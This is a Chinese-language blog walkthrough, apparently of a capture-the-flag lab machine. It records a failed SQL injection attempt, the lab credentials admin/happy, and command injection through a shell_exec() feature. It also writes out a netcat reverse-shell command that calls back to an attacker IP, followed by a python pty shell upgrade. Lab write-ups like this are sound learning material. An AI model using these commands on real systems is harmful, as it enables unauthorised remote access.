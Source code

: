 查看80端口，发现不是cms，是个登录框，提醒admin登录  

![upload successful](https://lnng.top/images/pasted-180.png)

**upload successful**

  
尝试sql,burpsuite跑一下字典没结果，那我再跑一下看看有过滤没(我丢还是啥结果没有)，看来没有注入呀  

![upload successful](https://lnng.top/images/pasted-181.png)

**upload successful**

  

![upload successful](https://lnng.top/images/pasted-182.png)

**upload successful**

  
让我百度一下题解，我丢，暴力破解密码可还行，那是时候祭出我100w的大字典了(heng!)  
再见没爆破出来直接看答案(我一点也不happy)，看来字典有的落后了

```
账号:admin
密码:happy
```

### [](https://lnng.top/posts/2ea3.html#%E7%99%BB%E5%BD%95%E8%BF%9B%E5%8E%BB "登录进去")登录进去

尝试登录发现是个命令执行功能，抓包看看，更改一下ls，发现能读取文件，那先读取comment看看是怎么执行的  

![upload successful](https://lnng.top/images/pasted-183.png)

**upload successful**

![upload successful](https://lnng.top/images/pasted-184.png)

**upload successful**

  
我丢，直接shell_exec(),那直接反弹shell

```
nc 192.168.124.139 4444 -e /bin/bash
kali端
netcat -l -p 4444
```

![upload successful](https://lnng.top/images/pasted-185.png)

**upload successful**

  
反弹一下交互shell

```
python -c 'import pty;pty.spawn("/bin/sh")'
```
